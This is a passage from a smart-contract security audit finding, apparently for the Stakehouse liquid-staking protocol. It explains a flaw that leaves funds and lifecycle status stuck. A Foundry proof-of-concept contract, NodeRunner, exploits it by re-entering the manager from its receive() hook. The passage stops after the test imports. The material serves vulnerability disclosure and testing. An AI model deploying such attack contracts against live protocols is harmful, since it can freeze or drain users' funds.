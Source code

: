 Funds are stuck, they cannot be taken or used. 
The LifecycleStatus is also stuck, tokens cannot be minted. 

### Foundry POC:

The POC will showcase the scenario in the diagram.

Add the following contracts to `liquid-staking` folder:
https://github.com/coade-423n4/2022-11-stakehouse/tree/main/contracts/testing/liquid-staking
```
// SPDX-License-Identifier: MIT

pragma solidity 0.8.13;

import { LiquidStakingManager } from "../../liquid-staking/LiquidStakingManager.sol";
import { TestUtils } from "../../../test/utils/TestUtils.sol";

contract NodeRunner {
    bytes blsPublicKey1;
    LiquidStakingManager manager;
    TestUtils testUtils;

    constructor(LiquidStakingManager _manager, bytes memory _blsPublicKey1, bytes memory _blsPublicKey2, address _testUtils) payable public {
        manager = _manager;
        blsPublicKey1 = _blsPublicKey1;
        testUtils = TestUtils(_testUtils);
        //register BLS Key #1
        manager.registerBLSPublicKeys{ value: 4 ether }(
            testUtils.getBytesArrayFromBytes(blsPublicKey1),
            testUtils.getBytesArrayFromBytes(blsPublicKey1),
            address(0xdeadbeef)
        );
        // Register BLS Key #2
        manager.registerBLSPublicKeys{ value: 4 ether }(
            testUtils.getBytesArrayFromBytes(_blsPublicKey2),
            testUtils.getBytesArrayFromBytes(_blsPublicKey2),
            address(0xdeadbeef)
        );
    }
    receive() external payable {
        testUtils.stakeSingleBlsPubKey(blsPublicKey1);
    }
}
```

Add the following imports to `LiquidStakingManager.t.sol`
https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12
```
import { NodeRunner } from "../../contracts/testing/liquid-staking/NodeRunner.sol";
import { IDataStructures } from "@blockswaplab/stakehouse-contract-interfaces/contracts/interfaces/IDataStructures.sol";
```
